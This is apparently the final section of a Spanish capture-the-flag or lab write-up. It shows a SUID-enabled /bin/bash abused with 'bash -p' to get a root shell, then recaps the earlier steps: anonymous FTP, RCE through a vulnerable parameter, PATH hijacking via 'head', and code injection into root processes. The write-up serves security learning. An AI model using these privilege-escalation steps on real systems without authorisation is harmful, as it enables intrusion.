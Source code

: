 Ahora si listamos los permisos de la **bash**
```bash
-bash-5.2$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Tenemos privilegios **SUID** del cual nos aprovechamos para lanzarnos una bash como **root**
```bash
bash -p
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
bash-5.2# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a enumerar el servicio **FTP**
2. Aprendimos a aprovecharnos del usuario **anonymous** para descargar los recursos
3. Aprendimos a ejecutar comandos **RCE** en el sistema atraves de un parametro vulnerable:
4. Aprendimos a secuestrar el  **PATH** para ejecutar codigo maliciosos atraves del bianrio **head**
5. Aprendimos a aprovecharnos de los procesos que son ejecutador por el usuario **root** para injectar codigo malicioso y que sea ejecutado como **root**